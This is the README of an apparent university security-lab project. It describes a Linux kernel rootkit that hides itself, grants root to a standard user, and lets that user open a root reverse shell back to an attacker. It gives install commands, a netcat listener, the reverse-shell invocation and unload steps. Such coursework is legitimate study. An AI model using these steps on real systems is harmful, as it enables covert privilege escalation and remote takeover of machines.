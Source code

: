 # Securitylab Project - Root Privileges Reverse Shell

## Team Member
Sittichok Thanomkulrat and Xianze Zhan

## Tested Environment
Ubuntu 16.04(64 bit) with Kernel 4.4.0

## What Does it do?
We implemented a rootkit module. It can hide itself from the module list and grant the root access for standard user after it has been installed. The non-root user can then run the reverse shell script to open a root reverse shell and connect back to the attacker. 

## File You May Care
- install_rootkit.sh
- reverse_shell.sh
- rootkit.c
- rootkit.h

## How to Load & Run? <br />
On target bot side: 
  ```bash
  make
  sudo ./install_rootkit.sh
  ```
  
On Attacker side: <br />
 ```bash
 nc -l -p <listen_port> -vvv 
 ```
  
Standard user on target side:<br />
 ```bash
  ./reverse_shell.sh 
 ```
You may modify the attacker server ip address & listen port in the reverse_shell script <br />

## How to Unload?<br />
  ```bash
  echo "unhide" > /proc/CS460/status
  sudo rmmod rootkit
  ```

## Warning!!!<br/>
This project is designed for academic research and study usage only.<br /> 
Don't be evil! Do Not use it against any unauthorised users in the real world! 